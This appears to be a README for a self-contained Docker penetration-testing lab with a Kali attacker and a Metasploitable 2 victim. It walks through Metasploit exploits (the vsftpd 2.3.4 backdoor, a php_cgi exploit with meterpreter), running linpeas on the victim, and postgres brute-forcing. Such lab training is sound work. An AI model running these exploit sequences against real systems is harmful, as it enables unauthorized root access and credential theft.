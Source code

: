 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
touch you_are_pwned
```

```bash
whoami #root
```

### Data gathering
From kali:
```bash
#Download linpeas.sh script
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit
# we get a meterpreter session
# from here, we upload the linpeas script to the victim
upload linpeas.sh .
shell #we open a shell in victim
ls #check file was uploaded successfully
chmod 777 linpeas.sh
./linpeas.sh
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo

```
# Use a linpeas binary
```

From kali:
```bash
#Download linpeas.sh script
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit
# we get a meterpreter session
# from here, we upload the linpeas script to the victim
upload linpeas.sh .
shell #we open a shell in victim
ls #check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
```
From meterpreter:
```bash
download out.txt
# Go back to msfconsole
bg

```
From kali terminal:
```bash
# Open linpeas file
less -r out.txt
```

